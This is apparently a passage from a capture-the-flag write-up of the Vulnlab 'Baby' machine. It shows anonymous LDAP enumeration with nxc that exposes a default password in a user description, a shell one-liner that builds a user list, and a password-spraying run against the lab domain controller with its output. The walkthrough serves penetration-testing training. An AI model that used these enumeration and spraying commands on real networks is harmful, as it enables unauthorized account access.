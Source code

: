 ```bash
 ┌──(kali㉿kali)-[~/Vulnlab/Baby]
└─$ sudo nxc ldap 10.10.118.21 -u '' -p '' -d baby.vl -M get-desc-users
```

``` 
SMB         10.10.118.21    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
LDAP        10.10.118.21    389    BABYDC           [+] baby.vl\: 
GET-DESC... 10.10.118.21    389    BABYDC           [+] Found following users: 
GET-DESC... 10.10.118.21    389    BABYDC           User: Guest description: Built-in account for guest access to the computer/domain
GET-DESC... 10.10.118.21    389    BABYDC           User: Teresa.Bell description: Set initial password to BabyStart123!

```

Interesting! The account Teresa.Bell has a description revealing a password. Based on our previous findings, Teresa.Bell is likely an IT department account. This suggests that IT might assign the initial password BabyStart123! to new users, who are then required to change it upon first login. 

Now the question is: how can we exploit this? The answer is Password Spraying. Using this technique, we attempt to log in as multiple users with the same password, hoping that at least one hasn't changed their default credentials.

---

## Password Spraying

To conduct the password spraying attack, we need a user list file and a known password. Based on our previous LDAP results, it appears that usernames follow the format firstname.lastname. We can generate a properly formatted user list with the following Bash one-liner:

```bash
┌──(kali㉿kali)-[~/Vulnlab/Baby]
└─$ sudo nxc ldap 10.10.118.21 -u '' -p '' -d baby.vl --users | awk -F '=' '{print $2}' | sed 's/ /./g' | awk -F ',' '{print $1}' > users.txt
```

Since this file contains blank lines, we clean it up with:

```bash
┌──(kali㉿kali)-[~/Vulnlab/Baby]
└─$ sed -E '/^$/d' users.txt > users_filtered.txt
```

Now our users_filtered.txt file is ready for the attack. Let's launch the password spraying attempt:

```bash
┌──(kali㉿kali)-[~/Vulnlab/Baby]
└─$ sudo nxc ldap 10.10.118.21 -u 'users_filtered.txt' -p 'BabyStart123!'
```

```                                                                    
SMB         10.10.118.21    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
LDAP        10.10.118.21    389    BABYDC           [-] baby.vl\baby:BabyStart123! 
LDAP        10.10.118.21    389    BABYDC           [-] baby.vl\Administrator:BabyStart123! 
LDAP        10.10.118.21    389    BABYDC           [-] baby.vl\Guest:BabyStart123! 
LDAP        10.10.118.21    389    BABYDC           [-] baby.vl\krbtgt:BabyStart123! 
LDAP        10.10.118.21    389    BABYDC           [-] baby.vl\Jacqueline.Barnett:BabyStart123! 
LDAP        10.10.118.21    389    BABYDC           [-] baby.vl\Ashley.Webb:BabyStart123! 
LDAP        10.10.118.21    389    BABYDC           [-] baby.vl\Hugh.George:BabyStart123! 
LDAP        10.10.118.21    389    BABYDC           [-] baby.vl\Leonard.Dyer:BabyStart123! 
LDAP        10.10.118.21    389    BABYDC           [-] baby.vl\Ian.Walker:BabyStart123! 
LDAP        10.10.118.21    389    BABYDC           [-] baby.vl\Connor.Wilkinson:BabyStart123! 
LDAP        10.10.118.21    389    BABYDC           [-] baby.vl\Joseph.Hughes:BabyStart123! 
LDAP        10.10.118.21    389    BABYDC           [-] baby.vl\Kerry.Wilson:BabyStart123! 
LDAP        10.10.118.21    389    BABYDC           [-] baby.vl\Teresa.Bell:BabyStart123! 
```